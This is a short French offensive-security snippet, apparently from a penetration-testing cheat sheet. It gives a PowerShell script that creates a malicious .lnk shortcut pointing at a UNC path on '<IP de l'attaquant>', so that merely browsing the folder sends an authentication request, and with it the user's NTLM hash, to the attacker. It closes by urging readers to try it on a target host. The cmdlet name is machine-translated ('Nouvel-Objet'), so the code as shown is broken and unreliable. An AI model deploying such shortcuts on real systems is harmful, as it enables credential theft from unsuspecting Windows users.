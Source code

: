 #### Génération d'un fichier .lnk malveillant

Génération d'un fichier .lnk malveillant

```

$objShell = Nouvel-Objet -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<IP de l'attaquant>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "La navigation vers le répertoire où ce fichier est enregistré déclenchera une demande d'authentification."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()

```

Essayez cette technique sur l'hôte cible pour vous familiariser avec la méthodologie et ajouter une autre tactique à votre arsenal lorsque vous rencontrez des environnements où Server 2019 est répandu.
